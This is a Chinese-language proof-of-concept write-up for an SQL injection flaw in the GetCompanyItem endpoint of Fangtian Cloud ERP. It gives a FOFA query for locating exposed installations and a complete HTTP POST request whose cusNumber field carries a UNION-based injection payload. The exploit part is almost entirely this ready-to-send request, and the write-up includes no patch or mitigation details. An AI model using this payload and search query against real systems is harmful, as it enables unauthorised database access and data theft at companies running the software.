 # 方天云ERP系统GetCompanyItem存在SQL注入漏洞

# 一、漏洞简介
方天软件以云ERP+MES产品为核心，整合设备层的工业数据，提供软硬件智能+整合方案服务，赋能数字工厂新智造。在模具制造、五金机械、塑胶成型、电子组装等行业成效显著，包括财富500强的企业也正在通过方天软件的综合管理方案而持续获益。方天云ERP系统GetCompanyItem存在SQL注入漏洞

# 二、影响版本
+ 方天云ERP

# 三、资产测绘
+ fofa`body="AjaxMethods.asmx/GetCompanyItem"`
+ 特征

![1721917258848-b78e31a2-e470-4ebe-99f8-ec99e64af05c.png](./img/YeZr3L9ppZ9Vc3mW/1721917258848-b78e31a2-e470-4ebe-99f8-ec99e64af05c-141307.png)

# 四、漏洞复现
```plain
POST /AjaxMethods.asmx/GetCompanyItem HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: ASP.NET_SessionId=scc55sifm4qstcyuiswqqeqi
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
X-Requested-With: XMLHttpRequest
Content-Type: application/json

{"cusNumber":"' UNION ALL SELECT NULL,CHAR(113)+CHAR(113)+CHAR(113)+CHAR(118)+CHAR(113)+CHAR(112)+CHAR(67)+CHAR(77)+CHAR(115)+CHAR(70)+CHAR(73)+CHAR(116)+CHAR(80)+CHAR(87)+CHAR(71)+CHAR(120)+CHAR(69)+CHAR(70)+CHAR(120)+CHAR(74)+CHAR(82)+CHAR(109)+CHAR(97)+CHAR(84)+CHAR(66)+CHAR(100)+CHAR(78)+CHAR(119)+CHAR(110)+CHAR(66)+CHAR(103)+CHAR(74)+CHAR(69)+CHAR(84)+CHAR(107)+CHAR(109)+CHAR(119)+CHAR(121)+CHAR(113)+CHAR(120)+CHAR(70)+CHAR(101)+CHAR(102)+CHAR(101)+CHAR(122)+CHAR(113)+CHAR(122)+CHAR(106)+CHAR(106)+CHAR(113)-- cRcq"}
```

![1721917285475-ecb66d9f-28c3-4ac1-a9cf-edf4fc760ab8.png](./img/YeZr3L9ppZ9Vc3mW/1721917285475-ecb66d9f-28c3-4ac1-a9cf-edf4fc760ab8-788954.png)



> 更新: 2024-08-12 17:29:10  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bh8s1goi997wx46g>